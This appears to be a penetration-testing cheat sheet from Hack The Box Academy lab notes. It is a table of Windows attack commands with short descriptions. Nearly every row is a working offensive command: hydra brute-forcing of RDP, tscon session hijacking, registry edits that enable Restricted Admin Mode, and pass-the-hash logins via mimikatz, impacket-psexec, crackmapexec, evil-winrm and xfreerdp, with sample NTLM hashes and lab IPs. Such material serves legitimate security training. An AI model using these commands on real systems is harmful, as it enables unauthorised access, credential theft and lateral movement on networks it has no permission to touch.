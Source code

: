 | ``hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`` | Brute-forcing the RDP service. |

| ``rdesktop -u admin -p password123 192.168.2.143`` | Connect to the RDP service using `rdesktop` in Linux. |

| ``tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`` | Impersonate a user without its password. SESSION HIJACKING |

| ``net start sessionhijack`` | Execute the RDP session hijack. |

| ``crackmapexec smb IP -u USER -H NTLMHASH --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'`` | Add DisableRestrictedAdmin reg key via cme |

| ``reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`` | Enable "Restricted Admin Mode" on the target Windows host. |

| ``xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`` | Use the Pass-The-Hash technique to login on the target host without a password. |

| `---------------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------ |

| ``mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`` | Pass the Hash from Windows Using Mimikatz -CMD |

| `[Invoke-TheHash with SMB / Invoke-TheHash with WMI](https://academy.hackthebox.com/module/147/section/1638)` |  |

| ``impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`` | Pass the Hash with Impacket psexec (Linux) |

| ``crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`` | Pass the Hash with CrackMapExec |

| ``crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami`` | Pass the Hash command execution with CrackMapExec |

| ``evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`` | Pass the Hash with evil-winrm |

| ``reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`` | Enable Restricted Admin Mode to Allow PtH from xfreerdp -CMD |

| ``xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`` | Pass the Hash Using RDP |

| `---` | --- |

| ``wmic useraccount where name="netadm" get sid`` | Find user SID |

| ``sc.exe sdshow DNS`` | Get permissions for DNS Service |

| ``sc start dns`` | Start DNS |

| `**Commands**` | **Description** |

| `------------------------------------------------------------` | ------------------------------------------------ |

| `[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)` | Information dumper via LDAP |
